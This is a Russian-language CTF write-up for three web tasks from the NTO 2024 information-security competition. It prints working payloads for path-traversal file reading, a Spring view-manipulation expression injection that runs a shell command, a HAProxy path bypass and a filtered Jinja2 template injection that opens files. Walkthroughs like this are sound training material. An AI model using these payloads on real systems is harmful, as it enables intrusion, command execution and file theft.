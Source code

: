 # Решения заданий НТО ИБ 2024 1337Rpwn4
# CTF

### WEB 1

Заходим на таск и видим календарь, один из дней на котором окрашен в типичную HTML-гиперссылку. Нажимаем. Идёт редирект на: `/download?file_type=file1.txt`

Пробуем LFI:
```
download?file_type=../../../../../../../../../etc/secret
```

Флаг: `nto{P6t9_T77v6RsA1}`

### WEB 2

Заливаем `jar`-файл в `jd-gui` и видим следующий, казалось бы, пустой метод:

```
  @GetMapping({"/doc/{document}"})
  public void getDocument(@PathVariable String document) {
    System.out.println("This function is not ready yet");
  }
```

Пробуем `Spring View Manipulation Vulnerability`:

```
/doc/__$%7Bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22cat%20flag%22).getInputStream()).next()%7D__::..x
```

Флаг: `nto{abobovichasdfas}`

### WEB 3

На эндпоинте `/flag` видим 403 ошибку. Заходим в исходники и находим `haproxy`. Пробуем дефолтные байпассы, сработал, например, `//flag`.

Далее фильтруемая `SSTI` в `Jinja2`. Гуглим хактриксы и вводим:

```
//flag?name={{(request|attr(request.args.c))._load_form_data.__globals__.__builtins__.open(%22flag.txt%22).read()}}&c=__class__
```

Флаг: `nto{Ht1P_sM088Lin6_88Ti}`
